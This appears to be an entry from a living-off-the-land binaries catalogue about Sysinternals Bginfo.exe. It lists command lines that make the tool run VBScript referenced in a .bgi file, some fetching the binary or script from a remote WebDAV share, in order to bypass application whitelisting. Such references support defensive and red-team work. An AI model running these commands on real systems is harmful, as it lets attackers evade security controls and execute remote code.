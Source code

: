 ## Bginfo.exe
* Functions: Execute
```

bginfo.exe bginfo.bgi /popup /nolicprompt
Execute VBscript code that is referenced within the bginfo.bgi file.

"\\10.10.10.10\webdav\bginfo.exe" bginfo.bgi /popup /nolicprompt
Execute bginfo.exe from a WebDAV server.

"\\live.sysinternals.com\Tools\bginfo.exe" \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
This style of execution may not longer work due to patch.
```
   
* Resources:   
  * https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
   
* Full path:   
  * No fixed path
   
* Notes: Thanks to Oddvar Moe - @oddvarmoe  
   
